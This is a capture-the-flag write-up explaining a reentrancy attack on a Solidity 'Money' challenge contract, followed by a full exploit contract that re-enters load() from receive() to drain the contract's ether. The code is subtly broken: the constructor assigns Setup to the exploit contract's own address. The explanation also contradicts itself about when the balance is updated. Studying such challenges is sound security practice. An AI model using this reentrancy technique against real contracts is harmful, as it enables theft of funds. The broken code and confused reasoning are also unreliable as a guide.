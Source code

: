 During deployment, the Setup contract deposits 10 ether into the Money contract, giving the Money contract a balance of 10 ether. If we deposit 10 ether into the Money contract and then call the `load()` function, it will trigger the `receive()` function in our Exploit contract. In the `receive` function, if we include logic to call the `load()` function again, the remaining 10 ether in the contract will also be transferred to us. The balance will be updated only after the `receive()` function finishes calling `load()` repeatedly.

Since the balance is updated to zero after every call, it doesn't matter how many times we call `load()` as long as the contract's balance is drained. If our logic in the `receive()` function calls the `load()` function repeatedly, even after the contract balance is drained, all the low-level calls will return false, and the `load()` function will revert with the message `Oh my god, what is that!?`.

The below is the exploit contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Setup, Money, Captcha} from "src/contracts/Setup.sol";

contract ExploitMoney {
    Setup public setup;
    Money public money;
    Captcha public captcha;
    uint256 num = 0;

    constructor() payable {
        require(msg.value == 10 ether);
        setup = Setup(address(this));
        money = Money(setup.moneyContract());
        captcha = Captcha(setup.captchaContract());
    }

    function Exploit() public {
        money.save{value: 10 ether}();
        uint256 secret = money.secret();
        uint256 gen_captcha = captcha.generateCaptcha(secret);
        money.load(gen_captcha);
    }

    receive() external payable {
        if (num == 0) {
            num++;
            uint256 secret = money.secret();
            uint256 gen_captcha = captcha.generateCaptcha(secret);
            money.load(gen_captcha);
        }
    }
}

```
